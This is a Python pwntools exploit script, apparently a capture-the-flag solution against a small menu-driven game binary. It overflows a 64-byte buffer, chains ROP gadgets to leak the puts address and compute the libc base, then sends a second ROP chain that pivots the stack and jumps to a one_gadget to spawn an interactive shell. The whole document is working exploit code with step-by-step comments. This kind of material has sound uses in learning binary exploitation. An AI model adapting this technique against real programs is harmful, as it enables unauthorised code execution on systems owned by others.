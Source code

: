 ```python
payload  = b'A' * 64            # fill buffer
payload += p64(1)               # sets stack pointer to rbp to a garbage value

# 1st ropchain
payload += nop_ret              # nop ; ret to 16 byte align stack
payload += read_int             # sets rax to our input (0x404010 for puts got addr) for overwrite
payload += pop_rbp_ret          # pop rbp ; ret
payload += data_section         # push a data_section on the stack so pop rbp gadget sets rbp = exit@got to be able to write second ropchain there
payload += p64(0x401243)        # ret to puts before the gets call to print a libc leak, setup second ropchain with gets, and execute the new ropchain

p.sendline(b'1')                        # singleplayer
p.sendline(payload)                     # this is the 1st gets call, sets ropchain
p.sendline(b'1')                        # survival
p.sendline(b'2')                        # exit = 2, restart = 1

p.clean()
p.sendline(b'4210688')  # setting rax to puts@got from read_int in ropchain to puts libc leak

p.recvuntil(b'\x80')
puts_got = int.from_bytes(b'\x80' + p.recv(5), 'little')
libc.address = puts_got - libc.sym['puts']

print('[+] libc base @  ', hex(libc.address))

# libc ropgadgets
pop_rdi = p64(libc.address + 0x277e5)
pop_r13 = p64(libc.address + 0x29830)
one_gadget = p64(libc.address + 0xd511f)

# 2nd ropchain
payload2  = b'A' * 0x40         # 0x4040f8 - 0x404130 are set to 'A's, started writing at 0x4040f8 bc the gets call writes to rbp-0x40. rbp is 0x404038 so minus 0x40 = 0x4040f8
payload2 += p64(0x404200)       # 0x404138 sets rbp to 0x404200 needed for one_gadget since rbp-0x38 needs to be a writable section
payload2 += pop_rdi
payload2 += p64(0x0)            # set rdi = NULL
payload2 += pop_r13
payload2 += p64(0x0)            # set r13 = NULL
payload2 += one_gadget          # pop shell

p.sendline(payload2)    # send second ropchain

p.sendline(b'1')        # survivial to get to main epilogue
p.sendline(b'2')        # get to main epilogue to call leave to pivot stack to data_section 0x404140

sleep(5)        # get rid of the program output for cleaner output
p.clean()

print('[+] Popped shell')

p.interactive()
```